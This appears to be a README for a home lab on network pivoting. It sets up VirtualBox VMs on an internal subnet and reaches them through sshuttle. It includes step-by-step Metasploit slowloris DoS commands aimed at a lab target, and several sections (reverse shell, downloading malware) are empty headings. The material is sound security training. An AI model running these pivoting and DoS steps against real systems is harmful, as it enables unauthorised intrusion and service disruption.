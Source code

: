 # NM-Lab-Network-pivoting

This is a Lab for practicing network pivoting.

## Prerequisite

### Network architecture

The following is our network settings for doing this Lab.

Local (Attacker)  
OS : MacOS or Kali Linux  
IP : 192.168.2.105 (For example)(Connect with Internet)  

VirtualBox VM1 (SSH Server)  
OS : Ubuntu server 20.04  
(Adapter1 橋接網路卡Bridge enp0s3) IP : 192.168.2.113 (For example)  
(Adapter2 內網Internal enp0s8) IP : 192.168.1.1 (For example)  

VirtualBox VM2 (Target machine)  
OS : Ubuntu server 20.04.2 or Kali Linux  
(Adapter2 內網 enp0s8) 192.168.1.100 (For example)    

VirtualBox VM3 (option)  
OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is quite a long process for installing DVWA alone.)  

Step 1 :  
完成VirtualBox的網路介面卡設定  
確認連接內網的網路卡擁有相同的名稱  

Step 2 :  
登陸兩(三)台要連接內網的VM之後，使用  
$ ifconfig -a  
確認內網網路卡的名稱 (In our case, enp0s8)  
然後使用指令  
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up  
開啟網路卡  
192.168.1.1 可以自己設定 (不同的機器要不同 192.168.1.1 192.168.1.100 in our case)  
不過注意每一次開機都要設定  

這樣即完成網路設定
可以用ping指令確認

### Enviroment & Installation

Local (Attacker)  

Ssuttle (For pivoting)  
https://github.com/sshuttle/sshuttle  
Nmap (For scanning)(option)  
https://nmap.org/book/inst-macosx.html  
Metasploit (For using slowloris DOS attack exploit module)  
https://www.metasploit.com    

VirtualBox VM1 (SSH Server)  

ssh service need to be enable  
http service (Apache web service) need to be enable  
root account for sshuttle  
normal user account for port forwarding  

VirtualBox VM2 (Target machine)  

ssh service need to be enable  
http service (Apache web service) need to be enable  

## Ways of Pivoting

### sshuttle

Open terminal  
$ sshuttle -r user@192.168.2.113 192.168.1.0/24  
Need root privilege for both local & the ssh server  

### dynamic port forwarding


### reverse remote port forwarding


## Ways of Attack

### DOS

Open terminal  
Run metasploitable  
Somewhere in the /opt/metasploit-framework/bin/ if you are using MacOS (High Sierra) like me  
$ ./msfconsole  
(Some configurations if first time use)  
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200 (the number doesn't really matter)  
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  

Now you should see it working !!!  

### reverse shell


### downloading other malwares
